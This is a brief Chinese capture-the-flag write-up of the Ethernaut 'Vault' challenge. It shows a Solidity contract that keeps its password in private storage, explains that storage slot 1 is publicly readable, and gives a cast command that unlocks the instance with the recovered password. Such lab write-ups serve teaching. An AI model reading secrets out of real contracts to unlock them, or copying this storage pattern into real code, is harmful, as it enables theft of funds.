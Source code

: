 #   Level 8 Vault
實例地址：`0x1272c37D089C685798B6b4B81583B7ad9a6e6c94`

##  題目說明
打開金庫(Vault)來通過這一關ㄅ！

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

##  POC
該合約將密碼儲存在合約當中並且沒有做任何處理我們可以查詢該合約的 `storge` 找出密碼，該密碼位在 `index=1` 的 `storge` 中。

`storge`：一個區間儲存 `byte32`，填滿為止，或者存入超過則會創新的空間儲存。

```bash
cast send --account=Panda 0x1272c37D089C685798B6b4B81583B7ad9a6e6c94 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```